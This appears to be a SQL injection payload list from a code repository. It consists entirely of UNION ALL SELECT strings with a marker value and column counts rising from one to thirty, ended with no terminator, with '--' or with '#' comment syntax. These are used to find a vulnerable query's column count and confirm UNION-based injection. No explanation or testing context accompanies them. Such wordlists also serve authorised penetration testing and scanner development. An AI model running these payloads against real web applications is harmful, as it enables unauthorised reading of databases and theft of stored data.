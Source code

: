 ```
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
 UNION ALL SELECT 'INJ'||'ECT'||'XXX'-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX'#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9#
```